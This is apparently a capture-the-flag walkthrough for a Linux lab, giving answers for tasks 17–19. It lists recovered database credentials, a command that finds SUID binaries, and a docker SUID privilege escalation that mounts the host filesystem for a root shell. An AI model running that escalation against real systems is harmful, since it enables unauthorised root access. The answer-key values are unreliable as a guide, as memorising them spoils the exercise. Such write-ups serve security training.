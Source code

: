 Lesson, walk up the webserver directory, this may not have got picked up.

![](db_connect.png)
What is the server address of the remote database?
```
192.168.100.1
```
What is the password of the remote database?  
```
!123SecureAdminDashboard321!
```
What is the username of the remote database?  
```
admin
```
What is the database name of the remote database?  
```
DashboardDB
```
What username can be found within the database itself?
```
gurag
```

![](mysqldbpass.png)

#### Task 18 

![](awesompx.png)

What user is the database running as?
```
www-data
```

#### Task 19 

`find / -perm -u=s -type f 2>/dev/null`

[Docker should never have suid bit set.](https://gtfobins.github.io/gtfobins/docker/#shell)

What is the full path of the binary with an SUID bit set on L-SRV01?
```
/usr/bin/docker
```
What is the full first line of the exploit for the SUID bit?
```
sudo install -m =xs $(which docker) .
```

![](coolme.png)

```bash
sudo install -m =xs $(which docker) .
./docker run -v /:/mnt --rm -it ubuntu:18.04 chroot /mnt sh
```
